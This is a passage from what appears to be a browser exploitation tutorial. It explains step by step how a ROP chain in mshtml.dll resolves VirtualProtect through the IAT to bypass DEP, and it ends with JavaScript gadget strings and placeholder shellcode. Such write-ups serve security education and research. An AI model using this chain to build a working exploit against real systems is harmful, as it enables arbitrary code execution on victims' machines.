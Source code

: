 The above snippet will take the preserved stack value in EAX and increase it by `0x18` bytes. This means EAX will now hold the stack value that points to the `VirtualProtect` parameter placeholder. This value is also copied into ECX, and our previously used COP gadget is leveraged. Then, the value in EAX is dereferenced to get the pointer the stack address points to in EAX (which is the `VirtualProtect` IAT entry). Then, the IAT entry is dereferenced to get the actual value of `VirtualProtect` into EAX. ECX, which has the value from EAX inside of it, which is the pointer on the stack to the parameter placeholder for `VirtualProtect` is overwritten with an arbitrary write gadget to overwrite the stack address with the _actual_ address of `VirtualProtect`. Let's set a breakpoint on the previously used `add esp, 0x18` gadget used to jump over the parameter placeholders.

Executing the updated POC, we can see EAX now contains the stack address which points to the IAT entry to `VirtualProtect`.

<img src="{{ site.url }}{{ site.baseurl }}/images/browser42.png" alt="">

Stepping through the COP gadget, which loads EAX into ECX, we can see that both registers contain the same value now.

<img src="{{ site.url }}{{ site.baseurl }}/images/browser43.png" alt="">

Stepping through, we can see the stack address is dereferenced and placed in EAX, meaning there is now a pointer to `VirtualProtect` in EAX. 

<img src="{{ site.url }}{{ site.baseurl }}/images/browser44.png" alt="">

We can dereference the address in EAX again, which is an IAT pointer to `VirtualProtect`, to load the actual value in EAX. Then, we can overwrite the value on the stack that is our "placeholder" for the `VirtualProtect` function, using an arbitrary write gadget.

<img src="{{ site.url }}{{ site.baseurl }}/images/browser45.png" alt="">

As we can see, the value in ECX, which is a stack address which _used_ to point to the parameter placeholder now points to the actual `VirtualProtect` address!

<img src="{{ site.url }}{{ site.baseurl }}/images/browser46.png" alt="">

The next goal is the next parameter placeholder, which represents a "fake" return address. This return address needs to be the address of our shellcode. Recall that when a function call occurs, a return address is placed on the stack. This address is used by program execution to let the function know where to redirect execution after completing the call. We are leveraging this same concept here, because right after the page in memory that holds our shellcode is marked as RWX, we would like to jump straight to it to start executing.

Let's first generate some shellcode and store it in a variable called `shellcode`. Let's also make our ROP chain a static size of 100 DWORDS, or a total length of 100 ROP gadgets.

```js
rop += "\uf5c9\u74cb";                     // mov eax, dword [eax] ; ret (74cbf5c9) (mshtml.dll) Dereference the IAT entry to obtain a pointer to VirtualProtect
rop += "\u8d86\u750c";                     // mov dword [ecx], eax ; ret (750c8d86) (mshtml.dll) Arbitrary write to overwrite stack address with parameter placeholder for VirtualProtect

// Placeholder for the needed size of our ROP chains
for (i=0; i < 0x500/4 - 0x16; i++)
{
rop += "\u9090\u9090";
}

// Create a placeholder for our shellcode, 0x400 in size
shellcode = "\u9191\u9191";

for (i=0; i < 0x396/4-1; i++)
{
shellcode += "\u9191\u9191"
}
````
